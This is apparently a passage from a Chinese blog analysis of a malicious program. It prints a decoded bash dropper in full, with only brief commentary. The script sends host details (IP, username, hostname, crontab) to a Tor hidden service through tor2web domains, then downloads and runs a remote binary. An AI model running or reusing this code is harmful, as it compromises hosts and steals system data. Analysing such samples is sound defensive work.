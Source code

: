 并不简短的程序，主要内容是一个用 base64 编码后的命令，解开之后内容如下：

```bash
jeAozqLbO5Ni2rtDL7lwAMXluzYQMl
exec &>/dev/null
export PATH=$PATH:$HOME:/bin:/sbin:/usr/bin:/usr/sbin:/usr/local/bin:/usr/local/sbin

d=$(grep x:$(id -u): /etc/passwd|cut -d: -f6)
c=$(echo "curl -4fsSLkA- -m200")
t=$(echo "bggts547gukhvmf4cgandlgxxphengxovoyo6ewhns5qmmb2b5oi43yd")

sockz() {
n=(doh.this.web.id doh.post-factum.tk dns.hostux.net uncensored.lux1.dns.nixnet.xyz dns.rubyfish.cn dns.twnic.tw doh-fi.blahdns.com fi.doh.dns.snopyta.org resolver-eu.lelux.
fi doh.li dns.digitale-gesellschaft.ch)
p=$(echo "dns-query?name=relay.tor2socks.in")
s=$($c https://${n[$((RANDOM%11))]}/$p | grep -oE "\b([0-9]{1,3}\.){3}[0-9]{1,3}\b" |tr ' ' '\n'|grep -Ev [.]0|sort -uR|head -n 1)
}

fexe() {
for i in . $HOME /usr/bin $d /var/tmp ;do echo exit > $i/i && chmod +x $i/i && cd $i && ./i && rm -f i && break;done
}

u() {
sockz
f=/int.$(uname -m)
x=./$(date|md5sum|cut -f1 -d-)
r=$(curl -4fsSLk checkip.amazonaws.com||curl -4fsSLk ip.sb)_$(whoami)_$(uname -m)_$(uname -n)_$(ip a|grep 'inet '|awk {'print $2'}|md5sum|awk {'print $1'})_$(crontab -l|base
64 -w0)
$c -x socks5h://$s:9050 $t.onion$f -o$x -e$r || $c $1$f -o$x -e$r
chmod +x $x;$x;rm -f $x
}

for h in tor2web.in tor2web.it
do
if ! ls /proc/$(head -n 1 /tmp/.X11-unix/01)/status; then
fexe;u $t.$h
ls /proc/$(head -n 1 /tmp/.X11-unix/01)/status || (cd /tmp;u $t.$h)
ls /proc/$(head -n 1 /tmp/.X11-unix/01)/status || (cd /dev/shm;u $t.$h)
else
break
fi
done

```

第一行随机字符串是干嘛的，我暂且不知道，这样应该会失败吧..

也不一定，除非，除非这是个可执行文件 :)
